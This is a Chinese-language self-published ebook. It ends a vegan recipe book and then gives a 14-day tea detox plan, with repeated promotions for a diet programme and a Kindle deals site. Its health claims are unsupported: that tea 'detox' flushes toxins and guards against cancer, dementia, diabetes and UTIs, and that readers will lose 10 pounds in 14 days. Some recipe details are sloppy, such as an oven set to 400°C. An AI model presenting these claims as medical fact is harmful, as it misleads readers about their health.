- 2个切碎的香葱
- 盐和胡椒调味
- 2瓣切碎的大蒜
- 3个切碎的番茄
- 四分之一杯水
- 四分之一杯番茄酱
- 2汤匙红糖
- 2汤匙芥末
- 3汤匙糖蜜
- 1茶匙卡宴辣椒
- 2汤匙酸角浓缩汁
- 1汤匙甜椒粉
- 1汤匙辣椒粉
- 1汤匙酱油

方法：

将每包豆腐切成四块并调味后先放在一旁。现在将黄油加入平底锅中，以中高火加热。加入大蒜和香葱炒约2分钟。现在加入除豆腐外的所有剩余食材，煮约15分钟。

15分钟后，将食材倒入搅拌机中搅拌至顺滑。现在将食材放回平底锅中再煮15分钟，然后冷却。

将混合物倒在豆腐上，然后将豆腐放入冰箱约3小时。3小时后（如果愿意，可以腌制更长时间），将豆腐从腌料中取出，两面烤至出现烤痕。现在用酸角刷两面豆腐，并上桌。

## 第 6 章：晚餐食谱

### 鹰嘴豆和菠菜咖喱

配料：（6人份）

- 2瓣切碎的大蒜
- 100克菠菜叶
- 1个切碎的洋葱
- 6个番茄
- 半茶匙油
- 1又四分之一英寸磨碎的生姜
- 1茶匙孜然粉
- 1茶匙姜黄粉
- 2茶匙香菜粉
- 1个切碎的花椰菜头
- 1茶匙酵母提取物
- 一撮辣椒碎
- 4汤匙红扁豆
- 400克鹰嘴豆
- 6汤匙椰奶油
- 1个对半切的柠檬
- 1汤匙切碎的腰果
- 1汤匙烤芝麻

方法：

将大蒜、洋葱、番茄和生姜放入搅拌机中，搅打至成泥。现在将所有香料在大锅中炒2-3秒，然后加入酵母提取物和泥状物。煮至食材冒泡，然后加入椰奶油和扁豆。煮至变软，加入西兰花，再煮4分钟。现在加入菠菜和鹰嘴豆，搅拌。挤入柠檬汁，加入腰果和芝麻，再次搅拌。食用。

### 扁豆千层面

配料：（4人份）

- 1根切碎的芹菜梗
- 1汤匙橄榄油
- 1个切碎的胡萝卜
- 1个切碎的洋葱
- 1瓣压碎的大蒜
- 1汤匙玉米淀粉
- 800克扁豆
- 2个切碎的花椰菜
- 1茶匙蘑菇番茄酱
- 1茶匙干牛至
- 2汤匙豆奶
- 1茶匙粉状蔬菜汤料
- 9张无蛋干千层面片
- 一撮肉豆蔻

方法：

将油、胡萝卜、洋葱和芹菜放入锅中煮约15分钟，直至蔬菜变软。现在加入大蒜煮2分钟，然后拌入玉米淀粉和扁豆。加入2杯水、蘑菇番茄酱、番茄、汤料和牛至，小火慢煮15分钟。

在上述食材烹煮的同时，取另一口锅将花椰菜煮约10分钟至变软。倒掉水，加入豆奶在搅拌机中打成泥。现在加入肉豆蔻，搅拌并将扁豆混合物放入烤盘（20 x 30厘米）中，覆盖1层千层面。加入更多扁豆混合物、一些泥状物，再放千层面，继续操作直至有3层扁豆混合物、千层面片和泥状物。

盖上松盖在烤箱中烤约45分钟，并上桌。

### 填馅甜椒

配料：（2人份）

- 四分之一杯切丁洋葱
- 2个切丁的干番茄
- 1杯水
- 1杯切丁罐装番茄
- 2个去籽甜椒
- 1块蔬菜汤块
- 四分之三杯糙米
- 半杯红酒
- 2瓣对半切的大蒜
- 1杯素食碎肉

方法：

将干番茄、大蒜和洋葱加入锅中，以中高火煮至番茄变软。然后加入汤块和罐装番茄，小火慢煮15分钟。

### 快手蔬菜意面

配料：（5人份）

- 14盎司未煮意面
- 自选蔬菜
- 3茶匙混合香草
- 盐和胡椒调味
- 3汤匙橄榄油

方法：

将烤箱预热至400摄氏度。将自选蔬菜切碎混合，加入橄榄油搅拌。现在撒上香草并调味。将蔬菜放入盘中烤约30分钟，或直至蔬菜变软。

将意面在锅中煮至熟，沥干后放入碗中。蔬菜煮好后，加入碗中，混合并上桌。

## 第 7 章：零食和开胃菜

### 花生酱山核桃小点

配料：（8个）

- 75克葡萄干
- 100克山核桃
- 1汤匙龙舌兰糖浆
- 1汤匙磨碎亚麻籽
- 1汤匙可可粉
- 2汤匙脱水椰丝
- 2汤匙花生酱

方法：

将山核桃在搅拌机中打至碎屑状，并加入花生酱、亚麻籽、葡萄干、龙舌兰糖浆和可可粉。将食材脉冲混合。

现在将食材塑形成球状，滚上椰丝，冷藏20分钟。食用。

### 杏子蛋白棒

配料：（14个）

- 40克燕麦
- 25克葵花籽
- 140克干杏子
- 3汤匙麻蛋白粉
- 15克干蔓越莓
- 1汤匙奇亚籽
- 40克脱水椰丝
- 1汤匙芝麻

方法：

将杏子与150毫升沸水一起放入搅拌机中打成泥。加入燕麦，然后将混合物放入碗中。将椰丝、葵花籽和芝麻放入锅中用小火烤。加入蔓越莓、杏子、奇亚籽和麻粉，制成糊状。

现在将混合物铺在保鲜膜上做成日志形状。放入冰箱冷藏。食用。

### 水果奶昔

配料：（1大杯）

- 1杯米奶或豆奶
- 1个切碎的香蕉
- 1汤匙枫糖浆
- 半杯草莓（或任何你喜欢的水果）
- 一撒肉桂

方法：

将所有食材加入奶昔机或搅拌机中，搅打至顺滑。食用。

## 结语

再次感谢您下载此书！

我希望这本书能帮助您在14天内减肥并改善健康。

下一步是购买食材，以便您能享受健康美味的饮食！

最后，如果您喜欢这本书，我想请您帮个忙，能否在亚马逊上为本书留下评论？将不胜感激！

点击此处在亚马逊为本书留下评论！

感谢并祝好运！

## 赠品：获取我提供的更多免费视频和书籍！

感谢您阅读我的书！我希望您从中获得了极大的价值。为了感谢您，我想赠送您更多与健康相关的免费视频、书籍和信息！

只需点击下面的链接并在我的网站上输入您的电子邮件地址！

您将获得的一切，如果您认真考虑改变饮食和健康，将对您有用。我将提供：

- 我更多的书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

[点击这里获取所有这些信息！](#)


嘿，希望你喜欢我的书。我想为你提供更多价值，所以我想赠送你一些免费内容，以及一个我最近尝试过的饮食法的信息，它帮助我减掉了顽固赘肉。

这个方案给了我用来减掉顽固赘肉的策略，让我感觉自己年轻了10岁！

这个方案叫做*脂肪消除法*。这套饮食法在帮助人们实现减肥目标方面取得了巨大的成功。这个方案不仅能帮助你减掉多余的脂肪，还会教你如何永久保持不反弹！

在短时间内减肥一直被看作是一项几乎不可能完成的任务。多年来，医生和营养师告诉公众，需要几个月甚至几年的努力才能看到减肥进展，或者塑造完美的身材。但事实绝非如此。

人体具有高度适应性，能在极短时间内发生变化。想一想，如果人们可以通过几周不健康的饮食迅速增加大量脂肪，那么他们难道不应该也能通过几周健康的饮食迅速减掉大量体重吗？是的，他们完全可以做到。

但是你需要吃什么才能快速减肥呢？从低碳水、低脂肪、无糖、高蛋白，甚至‘原始人’饮食法——市面上有太多选择，普通人很难决定该用哪种饮食来快速减肥。有些饮食法甚至在“该吃什么、不该吃什么”上提供了相互矛盾的信息。不过，这一切即将改变。

***[立即观看视频！](#)***

如果你还没去过，一定要看看我的新网站*KindleBookSpot.com*。这是我一直以来的一个新项目，我真心希望它对读者有价值。我创建这个网站是因为我想给大家一个更简单的方式，在一个地方就能找到最热门的Kindle特价书。以下是我网站提供的一些内容：

- 畅销免费Kindle书籍列表
- 打折的小说和非小说类书籍
- 每周一书
- 特色书籍
- 在我的网站上推广你自己的书

这个网站不仅面向读者，也是新兴作家在作品成为畅销书之前推广新书的地方。所以如果你想推广自己的书，就来我的网站*KindleBookSpot.com*看看吧。

希望这个网站对你有用，期待在那里见到你！

***订阅KindleBookSpot这个不断壮大的社区，当最好的书籍打折或免费时，你会收到通知。***

# 14天茶排毒计划

*减重高达10磅并过上更健康生活的计划*

*关于我最喜欢的饮食法的额外信息*

*另外，在[KindleBookSpot.com](KindleBookSpot.com)还有更多免费和特价书*

## 目录

- 引言
- 第一章：茶的健康益处
- 第二章：开始茶排毒法
- 第三章：14天减脂计划
- 第四章：应避免的事项
- 结论

## 引言

我想感谢并祝贺你下载了这本书：《14天茶排毒法：减重高达10磅的14天计划》。

这本书包含了经过验证的步骤和策略，教你如何减掉多余的体重，过上更健康、更幸福的生活。

为什么大多数人在想到健康和健身时，第一反应是感到气馁，表现得好像这个想法根本不存在一样？当然，我们不可能都是健身专家，但如果你真的认真想要恢复身材，有些技巧可以帮助你练成一直想要的身材。无论是减肥还是获得更多精力，进行茶排毒法是开启更健康生活方式的最有效途径之一。

虽然身体燃烧储存脂肪的自然能力会随着年龄增长而减慢，但这并不意味着你应该放弃健身目标。无论你处于人生的哪个阶段，你仍然可以做很多事情来改善身心健康，而阅读这本书就是过上你一直想要的生活的第一步。

这本书旨在教你如何通过进行茶排毒法，开始一种更健康、更绿色的生活方式。这并非一种帮助你快速减肥的时尚饮食，而是鼓励你利用茶解毒来做出更健康的生活方式选择，并在此过程中重置你的生活方式。

### 这本书将教你：

- 哪些茶富含强效抗氧化剂
- 为什么你的生活需要抗氧化剂
- 如何在茶排毒法之外，结合水、运动和健康饮食来促进减肥
- 你应该避免什么
- 如何从头开始自制茶
- 以及更多内容！

那你还等什么？今天就开始阅读，改变你的生活方式吧！

再次感谢你下载这本书，希望你喜欢！

别忘了查看文末我最喜欢的饮食法之一，并学习我用三周饮食法快速减掉顽固赘肉的策略。

## 在我们开始之前……福利：获取更多由我提供的免费视频和书籍！

感谢你阅读我的书！我希望你从中获得了巨大的价值。为了感谢你，我将为你提供更多与健康相关的免费视频、书籍和信息！

只需点击下面的链接，在我的网站上输入你的电子邮件地址！

如果你认真想要改变饮食和健康状况，你将获得的一切都会对你有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 关于我喜爱的健康产品的信息
- 以及更多！

点击这里获取所有这些信息！

## 第 1 章：茶的健康益处

### 什么是茶排毒法？

茶排毒法是一种特殊的排毒方案，通过帮助你利用茶的解毒力量来减肥。我们的生活方式可能并不像应有的那样健康，由于我们吃的食物以及呼吸的空气，化学物质会在体内积聚。

茶排毒法可以通过将化学物质和其他毒素排出体外，帮助清除体内的积聚。理想情况下，我们都应该每月排毒一次，但这并不总是容易做到，我们也不总有足够的时间全身心投入这个计划。好消息是，14天茶排毒计划持续时间不长，而且相对容易实施。

这个计划要求你喝绿茶以及其他健康茶，这些茶不仅有排毒功效，还有其他健康益处。使用这个计划可以帮助你在短短14天内减重多达10磅，而且不会挨饿。事实上，我们积极鼓励你继续进食，只要确保你享受健康均衡的饮食，并进行充足的运动。

### 清除毒素

茶排毒法的主要好处之一是能够帮助清除毒素。毒素在我们不知不觉中在体内积聚，众所周知它们会对健康产生负面影响。毒素积聚可能导致癌症和其他疾病。为了清除体内由你食用的加工食品、呼吸的空气和吸烟产生的毒素，你应该考虑喝排毒茶。

具有极强排毒作用的茶可以帮助你对抗癌症、糖尿病、痴呆症和心脏病。还有人认为，高胆固醇人群也可能从喝茶中受益，因为茶可能降低胆固醇水平。

### 每天喝茶

每天喝排毒茶可以帮助你排出那些讨厌的毒素，同时促进减肥。理想情况下，你应该在早餐前或早餐时喝一杯茶，午餐前或午餐时喝一杯，晚上吃饭时再喝一杯。

正如你所看到的，这个计划特别关注你喝什么，而对吃什么关注较少。这是因为喝‘对’的液体对你的健康和体重有很大的影响。

令人难以置信的是，许多人分不清饥饿和口渴的区别。这就是为什么我们鼓励你在感到饥饿时喝点东西，因为很可能你的身体需要的是液体，而不是食物。这个小改变会对你的体重产生巨大影响，因为你会摄入更少的卡路里。

这并不是说你应该大幅减少食物摄入量。你应该明智地选择吃什么、吃多少，但也许你可以在吃东西前喝点茶，如果发现自己仍然饿，再继续吃点东西。


## 充足饮水

充足饮水是茶排毒计划不可或缺的一部分。我们本就应该多喝水，但现在尤其重要。每天都要喝八杯水。水非常适合帮助排出那些讨厌的毒素，同时也能帮助减轻压力，促进良好睡眠。更重要的是，如果你便秘，喝水可以帮助缓解问题。

确保每天喝够水的一个好方法是，在你身边或附近放一杯水，这样你就能轻松取用。

## 茶的益处

我们已经提及了茶排毒计划的几个益处，但你可能有兴趣知道还有不少其他好处。

使用这个计划不仅可能帮助你在14天内减重多达10磅，还可以：

- 帮助你重新补水
- 有助于增强免疫系统，使你不易患感冒和流感
- 被认为有助于预防阿尔茨海默病和其他神经退行性疾病。
- 促进新陈代谢，这意味着你会更快燃烧脂肪和卡路里
- 由于摄入额外液体，有助于降低压力水平
- 提高你的能量水平
- 由于茶的利尿特性以及你饮用的额外液体，促进肠道蠕动
- 增强牙齿珐琅质并预防口臭
- 使你不易患尿路感染
- 你可以享用一些美味的茶，为你的每一天增添特别之处。

## 第 2 章：开始茶排毒

开始茶排毒可能没有你想象的那么容易。毕竟，这是一个需要大量奉献精神的排毒计划。

如果你不习惯喝大量液体，你可能会觉得这个计划相当具有挑战性。别担心！我整理了一些实用小贴士，可以让你的茶排毒之旅轻松一些。

### 实用小贴士

### 何时饮茶

理想情况下，你应该在早餐前或与早餐一起喝一杯茶，午餐前或与午餐一起喝一杯，晚上用餐时再喝一杯。你可能很难比平时喝更多液体，所以请确保只喝你喜欢的茶。这样可以确保你坚持计划，进而更有可能减重多达10磅。

### 如何泡茶？

坦白说，并不是每个人都是茶爱好者。我们并非人人都知道如何泡出一杯完美的茶，甚至是一杯好喝的茶。但别担心，这相当简单，久而久之就会成为本能。

- 将两克你选择的茶叶加入茶滤中，并将茶滤放入杯中。或者，将一袋茶包放入杯中。
- 倒入一些沸水，几乎装满杯子。
- 将茶叶或茶包浸泡三到五分钟。
- 将茶滤或茶包从杯中取出。
- 如愿，可加入一点蜂蜜或柠檬调味。
- 热饮或冷饮均可。

### 与朋友一起排毒

这个计划可能没有你想象的那么容易。你很可能会觉得喝更多液体很困难。坚持计划的动力也可能难以找到，但这是你在减重和排毒过程中唯一的方法。

请一位朋友加入你，这样你们可以共同分享困难和收获。与朋友一起排毒不会让你感到孤立，也能让你有机会交流心得，这绝不是坏事。

### 不要过度勉强自己

有时情况会变得艰难，你会想放弃。虽然保持动力很重要，但你应确保不要过度勉强自己。如果你感到吃力，就休息一两天，然后再回到计划中。从你离开的地方继续，不要对自己太苛刻。

开始一个新的排毒计划可能与你以前做过的一切大不相同。你会时常想放弃，但要接受这些困难。也许在找到感觉并习惯计划之前，给自己偶尔放个假，然后继续是最好的做法。

### 记录饮用时间

记录饮用时间是追踪进展的好方法。有时你可能忘记喝水，有时你可能只是不想喝。记录你喝了多少次茶，也许还有水，可以确保你知道自己在14天计划中的位置。

### 我该喝什么茶、何时喝？

有些茶排毒计划会明确告诉你该喝什么茶、何时喝。很多计划会告诉你只有特定品牌的茶才能喝。除非你愿意每月支付订阅费购买一种味道不错但效果与其它天然排毒茶一样好的茶，我建议你自己决定。尽量每天喝至少2种不同类型的抗氧化茶，这样你才能获得益处。请参考下面的购物指南，了解哪些茶适合14天茶排毒计划。

如果你计划多次进行这个计划，你可能想尝试不同的茶。这将帮助你了解有哪些选择，你更有可能找到效果好或味道很棒的茶。

### 购物指南

有些人很乐意先采购制作排毒茶所需的所有原料，然后混合起来制作自制茶饮。这个过程可能相当困难，因为这意味着你需要购买各种茶叶盒或袋子，并且要准确知道每份需要多少种茶叶。

其他人则乐于直接购买现成的茶，按说明使用。这是一种更简单的方式，因为几乎不需要准备。泡茶没有对错之分，但如果你生活忙碌，或担心无法坚持计划，那么选择预包装茶。

### 漂白茶包

我想补充一点，很多茶是用漂白过的茶包包装的。漂白茶包是白色的，未漂白茶包颜色较深。许多有机茶使用未漂白的茶包，如果你不喜欢使用化学漂白的茶包，请选择未漂白的。或者，你可以寻找使用无氯工艺（TCF）制作的茶包。

我推荐的茶包括：

### 牛蒡茶

牛蒡茶用作净化血液已有数百年历史，它是较少为人知的抗氧化茶之一，但这并不意味着它无效。牛蒡是天然利尿剂，这意味着它会排出多余体液，同时帮助清除体内那些讨厌的毒素。更重要的是，这种美味甜味的茶也被认为能增强免疫系统。

### 芫荽茶

芫荽不仅味道很棒，而且也是很好的排毒剂。更重要的是，你也可以用这种好草药泡茶来对抗感染。芫荽茶味道温和、舒缓，也被认为具有很好的抗关节炎作用。

### 绿茶

绿茶或许是最为人熟知的抗氧化茶之一。我们大多数人都知道它对我们非常有益，但很多人并不清楚原因。除了是特别有效的抗氧化剂外，绿茶还能帮助消除体内脂肪，同时帮助你消除水肿。

绿茶刚开始喝时味道可能有点奇怪，但别担心，你会习惯这种味道。尝试不同品牌的绿茶，因为有些味道会更浓。如果你难以接受这种味道，为什么不试试薄荷/绿茶组合呢？

### 生姜茶

除了味道很棒外，生姜茶在帮助排毒方面也相当不错。更重要的是，它还有助于促进消化、增强血液循环，并且由于其略带酸味的口感，甚至能在早晨让你稍微提神。

### 奶蓟茶

奶蓟茶对消化非常有益，也非常有助于肝脏排毒。如果你患有肝病，或肝脏健康状况不佳，那么你可以尝试这种茶。请在尝试这种茶之前咨询医生，因为它可能会与你正在服用的药物相互作用。


### 薄荷茶

这种茶是天然的食欲抑制剂，也非常有助于安抚肠胃，从而帮助消化。我个人喜欢每天喝2杯薄荷茶，无论我是否在进行清体，它就是这么好。市面上的薄荷茶有很多不同种类，但我的建议是选择无添加剂的茶。薄荷茶中稍微混合一点绿茶会特别美味，而且一杯茶就能获得两种茶的好处。

### 乌龙茶

乌龙大致可译为“黑龙”，它是一种美味的茶，有助于促进新陈代谢。新陈代谢越快，你燃烧脂肪的速度就越快。此外，乌龙茶也非常适合安神，如果你容易焦虑或紧张，那就更值得一喝。

### 红三叶草茶

我通常得去中国商店购买这种茶，但一些健康食品店也可能出售这种美味可口的茶。红三叶草茶富含抗氧化剂，中医用它来清除肝脏和血液中的毒素；当你鼻塞时，它也特别适合饮用，因为它能自然帮助清除鼻腔和肺部中的痰液。

### 路易波士茶

又称“红灌木茶”，这种风味绝佳、不含咖啡因的茶有助于降低压力激素，并降低2型糖尿病的风险。无论加不加牛奶，路易波士茶浸泡约5分钟后味道都更好。

### 白茶

白茶不仅是抗氧化剂的极丰富来源，还能帮助分解脂肪。这使白茶成为一种理想的茶饮；此外，它是你能找到的加工程度最低的茶之一，而这绝不是坏事。

### 去哪里购买茶叶

当地超市很可能会有你考虑用于14天茶饮清体计划的部分茶叶。一般来说，超市最多也就是绿茶，或许还有路易波士茶或乌龙茶。在超市里很难找到更“异域”的茶，所以你只能另寻他处。

当地的健康食品店会有更多种类的茶，如果你考虑批量购买，他们甚至可能愿意为你订购一些。或者，也有不少线上健康食品店和专业茶叶卖家，所以你应该能在那里买到茶叶。

一些中国超市和中药店也备有各种各样的茶，所以如果你附近有一家，就很值得去一趟，价格也可能相当不错。

### 关键成分

当你开始进行茶饮清体计划时，需要确保方法正确。理论上，你可以喝任何想喝的茶，并认为自己正在进行清体计划。这样做的问题在于，你可能会错失一些排出体内大量毒素的重要机会。

在开始执行计划之前，理想情况下你应该备有大量茶叶。你不需要有16种不同的茶，但我建议你至少准备3种。这个计划最重要的方面之一，是你要喝含有一些关键成分的茶。这些成分基本上就是任何含有抗氧化特性的茶，或任何添加到茶中的含有抗氧化特性的东西。茶的抗氧化特性越多，你的清体效果就越好。

让我们来看看茶叶中会发现的一些关键成分：

### 类黄酮

类黄酮是你喝的任何红茶中极其重要的一部分。这是因为它们有助于减少血管收缩，从而改善血液流动。类黄酮也起抗氧化剂的作用，甚至有人认为它们可能具有轻微的抗组胺特性。

### 多酚

多酚是一种抗氧化剂，有助于捕捉那些可能损害细胞的自由基。好消息是，绿茶和红茶中的多酚含量是你所吃的任何水果或蔬菜中的十倍。

如你所见，茶可能对你非常有益，尤其是绿茶或红茶。尽量多喝绿茶或红茶，因为这样你的清体效果会好得多。

## 第 3 章：14 天减脂计划

### 指南：

作为茶饮清体计划的一部分，你应在早餐前或早餐时喝一杯茶，在午餐前或午餐时喝一杯，晚餐时再喝一杯。你也许决定每天喝同一种茶，但理想情况下应增加一些变化，因为这有助于避免厌倦。

### 水

下面你会看到推荐的14天减脂计划，它应能帮助你减掉最多10磅。你会发现，这个计划鼓励你多喝水，因为水是天然抗氧化剂，还能帮助保持肠道蠕动。

### 运动

这个计划也包括运动。你不必比现在多做很多运动，只要试着更活跃一些。考虑步行或骑自行车去上班或去商店，而不是开车。有空时去散散步，参加健身课，或做任何能让你稍微出点汗的事情。你越活跃，燃烧的卡路里就越多，这意味着你会开始减重。

重要提示：如果你做更多运动，就需要增加液体摄入量。确保不要让自己脱水，把水分补充到身体里，并因此感觉更好。

下面你会看到14天减脂计划指南。这份指南要求你喝特定种类的茶，但你不必完全照做。选择你想喝的茶，因为你可能不喜欢我建议的茶。该计划只是一个指南，可以调整以适合你的口味和生活方式。

### 用餐时间

如果你想减重，就需要确保饮食健康均衡。低脂、低盐和低糖的饮食有助于加快减重。你不必极端到完全戒掉脂肪、糖和盐，只需要明智一些。尽量每天至少吃5份水果和蔬菜。记住，你可以偶尔犒劳自己，只是要确保不要过于频繁，因为这可能会减慢你的减重速度。

你的晚餐应该是一顿正餐，包含碳水化合物、蛋白质和蔬菜。如果你愿意，甜点可以算一点小享受，但要注意份量。

### 第一天

- 起床后喝一杯水
- 早餐前或早餐时喝一杯绿茶
- 吃健康零食时喝一杯水
- 午餐前或午餐时喝一杯姜茶
- 吃健康零食时喝一杯水
- 晚餐前或晚餐时喝一杯路易波士茶

### 第二天

- 起床后喝一杯水
- 早餐前或早餐时喝一杯绿茶
- 吃健康零食时喝一杯水
- 午餐前或午餐时喝一杯姜茶
- 吃健康零食时喝一杯水
- 晚餐前或晚餐时喝一杯路易波士茶

### 第三天

- 起床后喝一杯水
- 早餐前或早餐时喝一杯绿茶
- 吃健康零食时喝一杯水
- 午餐前或午餐时喝一杯薄荷茶
- 吃健康零食时喝一杯水
- 晚餐前或晚餐时喝一杯路易波士茶

### 第四天

- 起床后喝一杯水
- 早餐前或早餐时喝一杯绿茶
- 吃健康零食时喝一杯水
- 午餐前或午餐时喝一杯薄荷茶
- 吃健康零食时喝一杯水
- 晚餐前或晚餐时喝一杯路易波士茶

### 第五天

- 起床后喝一杯水
- 早餐前或早餐时喝一杯绿茶
- 吃健康零食时喝一杯水
- 午餐前或午餐时喝一杯牛蒡茶
- 吃健康零食时喝一杯水
- 晚餐前或晚餐时喝一杯路易波士茶


### 第六天

- 醒来时喝一杯水
- 早餐前或与早餐一起喝一杯绿茶
- 与健康零食一起喝一杯水
- 午餐前或与午餐一起喝一杯牛蒡茶
- 与健康零食一起喝一杯水
- 晚餐前或与晚餐一起喝一杯 Rooibos 茶

### 第七天

- 醒来时喝一杯水
- 早餐前或与早餐一起喝一杯绿茶
- 与健康零食一起喝一杯水
- 午餐前或与午餐一起喝一杯生姜茶
- 与健康零食一起喝一杯水
- 晚餐前或与晚餐一起喝一杯 Rooibos 茶

### 第八天

- 醒来时喝一杯水
- 早餐前或与早餐一起喝一杯绿茶
- 与健康零食一起喝一杯水
- 午餐前或与午餐一起喝一杯白茶
- 与健康零食一起喝一杯水
- 晚餐前或与晚餐一起喝一杯乌龙茶

### 第九天

- 醒来时喝一杯水
- 早餐前或与早餐一起喝一杯绿茶
- 与健康零食一起喝一杯水
- 午餐前或与午餐一起喝一杯白茶
- 与健康零食一起喝一杯水
- 晚餐前或与晚餐一起喝一杯乌龙茶

### 第十天

- 醒来时喝一杯水
- 早餐前或与早餐一起喝一杯绿茶
- 与健康零食一起喝一杯水
- 午餐前或与午餐一起喝一杯香菜茶
- 与健康零食一起喝一杯水
- 晚餐前或与晚餐一起喝一杯乌龙茶

### 第十一天

- 醒来时喝一杯水
- 早餐前或与早餐一起喝一杯绿茶
- 与健康零食一起喝一杯水
- 午餐前或与午餐一起喝一杯香菜茶
- 与健康零食一起喝一杯水
- 晚餐前或与晚餐一起喝一杯乌龙茶

### 第十二天

- 醒来时喝一杯水
- 早餐前或与早餐一起喝一杯绿茶
- 与健康零食一起喝一杯水
- 午餐前或与午餐一起喝一杯红三叶草茶
- 与健康零食一起喝一杯水
- 晚餐前或与晚餐一起喝一杯乌龙茶

### 第十三天

- 醒来时喝一杯水
- 早餐前或与早餐一起喝一杯绿茶
- 与健康零食一起喝一杯水
- 午餐前或与午餐一起喝一杯红三叶草茶
- 与健康零食一起喝一杯水
- 晚餐前或与晚餐一起喝一杯乌龙茶

### 第十四天

- 醒来时喝一杯水
- 早餐前或与早餐一起喝一杯绿茶
- 与健康零食一起喝一杯水
- 午餐前或与午餐一起喝一杯奶蓟茶
- 与健康零食一起喝一杯水
- 晚餐前或与晚餐一起喝一杯乌龙茶

如果你想在晚上多喝水，请随意。

## 概览

茶清洁计划是一种健康且可持续的计划，可以帮助你减肥。请记住，你确实需要吃健康均衡的饮食，并进行一些锻炼，才能感受到全部益处。

令人难以置信的是，你会在不知不觉中开始减肥，这仅仅是因为你会喝更多的液体。一些液体，尤其是茶，可以让你有饱足感，减少你想吃不健康零食的冲动。

## 第 4 章：需要避免的事物

为了让你的14天茶清洁计划尽可能成功，你需要限制特定食物和饮料的摄入。油腻、甜食和咸食应避免，或者至少应尽量减少摄入量。

以下是你需要避免的更多事项：

### 酒精

酒精充满了卡路里，这就是为什么你经常看到常喝酒的人有啤酒肚。为了帮助减肥，你应该考虑在计划期间将酒精从饮食中去除。如果你真的想喝点东西，那就选择一些干白葡萄酒，因为它含酒精较少。

### 油炸食品

虽然在计划期间偶尔犒赏自己也没什么问题，但你应该尽量避免油炸食品。即使排除了多余的脂肪，油炸食品也富含脂肪。

### 汽水

汽水富含糖分，在计划期间应避免。减肥汽水含有阿斯巴甜（也称为‘氨基甜’）。阿斯巴甜会欺骗你的大脑让你以为自己饿了，并让你去吃那些不健康的零食。完全避免汽水，以免一次摄入大量卡路里。

### 糖

除非你能确定自己能消耗掉摄入的糖分，否则应尽量避免。如果不消耗掉糖分，它会被储存为脂肪，而这正是你不想要的。

### 盐

我们都在不知不觉中摄入了太多盐，而不知道它对我们有多坏。盐会促进液体潴留，并且众所周知会升高血压。将盐的摄入量减半，每天不超过6克。我们都需要饮食中有一点盐，只是不要摄入太多。

如果你愿意，你可以每个月做一次这个14天计划，只要确保在不在计划期间吃健康均衡的饮食，并保持锻炼。这样你的减肥效果会更持久，而且不必太担心体重反弹。

## 第 5 章：食谱

你们中有些人可能想从零开始制作自己的茶，让我告诉你，自制的一杯美味茶是多么令人满意。虽然你可能无法找到制作每种你想制作的茶的所有原料，但你会找到一些。

### 生姜茶

配料：（4人份）

- 2 英寸生姜根
- 4 杯水

### 方法

- 去皮生姜并切成薄片
- 在锅中煮沸水，并加入生姜
- 给锅盖上盖子，将火调小至微沸
- 让水微沸15到20分钟
- 滤入杯子或马克杯中
- 依口味加入柠檬或蜂蜜
- 上桌

### 薄荷茶

配料：（4人份）

- 半杯薄荷叶
- 4 杯水
- 3 汤匙蜂蜜

### 方法

- 在锅中煮沸水
- 加入薄荷叶并关火
- 静置约5分钟
- 将茶滤入杯子或马克杯中
- 将蜂蜜分到各杯中
- 上桌

### 绿茶生姜薄荷茶

配料：（15人份）

- 2 个橙子
- 2 英寸生姜
- 1 把薄荷
- 半杯绿茶叶

### 方法

- 去皮橙子，并将它们放在架子上
- 将生姜切成厚片，并放在架子上
- 取下薄荷叶，并放在架子上
- 让橙子、生姜和薄荷在室温下干燥约24小时，或直至变脆
- 将干燥的原料打碎成约一英寸大小的块
- 将块状物混合在碗中，并存放在密封容器中
- 用勺子将1到2茶匙干原料放入浸泡器中，并放入杯中
- 倒入沸水，浸泡3到5分钟
- 上桌

不要害怕尝试上述食谱，甚至创造自己的食谱。

尽快开始14天茶排毒计划，让你的身体受益于茶完全天然的抗氧化功效。减肥，变得更健康、感觉更好，并通过饮用正确类型的茶简单地清除那些讨厌的毒素。

## 结语

再次感谢你下载这本书！

我希望这本书能帮助你了解茶排毒计划是多么容易、愉快和有效。

下一步是准备好你需要的茶，并准备好在14天内减掉多达10磅！

最后，如果你喜欢这本书，我想请你帮个忙：你能为这本书在亚马逊上留下评论吗？将不胜感激！

[**点击这里在亚马逊为本书留下评论！**](#)

谢谢并祝你好运！

## 赠品：获取我提供的更多免费视频和书籍！

感谢阅读我的书！我希望你从中获得了超值的收获！我想通过赠送更多与健康相关的免费视频、书籍和信息来感谢你！

只需点击下面的链接并在我的网站上输入你的电子邮件地址！

你将获得的一切，如果你认真对待改变饮食和健康，对你都会有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 与健康相关的我最喜欢的产品信息
- 以及更多！

点击这里获取所有这些信息！


嘿，希望你喜欢我的书。我想给你带来更多价值，所以想提供一些免费内容，以及关于我最近尝试过的一种饮食法的信息——它帮我减掉了顽固的多余脂肪。

这个计划给了我一套策略，我用它减掉了不想保留的顽固脂肪，并感觉自己年轻了10岁！

这个计划名为“The Fat Diminisher”（脂肪削减计划）。这种饮食法在帮助人们实现减重目标方面取得了巨大成功。这个计划不仅能帮助你减掉多余脂肪，还会教你如何永久保持下去！

在短时间内减重一直被认为几乎是不可能完成的任务。多年来，医生和营养师一直告诉公众，要想在减重方面看到任何进展，或塑造完美身材，需要数月甚至数年的努力。但这根本不是真的。

人体适应性极强，能够在极短的时间内发生变化。想想看。如果人们能因为几周的不健康饮食而迅速堆积大量脂肪，那他们不也应该能因为几周的健康饮食而快速减掉大量体重吗？嗯，他们绝对可以。

但是，你需要吃什么才能快速减重呢？从低碳水、低脂肪、无糖、高蛋白，甚至“穴居人”饮食法——可选方案如此之多，以至于普通人会非常困惑：到底应该采用哪种饮食法来快速减重。其中一些饮食法甚至在你该吃什么、不该吃什么方面提供了相互矛盾的信息。好吧，这一切即将改变。

*现在就来看看视频吧！*

如果你还没有看过，一定要看看我们的新网站 *KindleBookSpot.com*。这是我一直在做的一个新项目，我真心希望它对读者有价值。我创建这个网站，是因为我想给你们一个更轻松的方式，在一个地方找到价格优惠的最热门Kindle电子书。以下是我的网站提供的一些内容：

- 畅销免费Kindle电子书列表
- 打折的小说和非小说类书籍
- 每周一书
- 精选书籍
- 在我的网站上推广你自己的书

这个网站不只是为读者准备的，它也是新锐作者在成为畅销书作家之前推广新书的地方。所以，如果你想推广自己的书，请访问我的网站 *KindleBookSpot.com*。

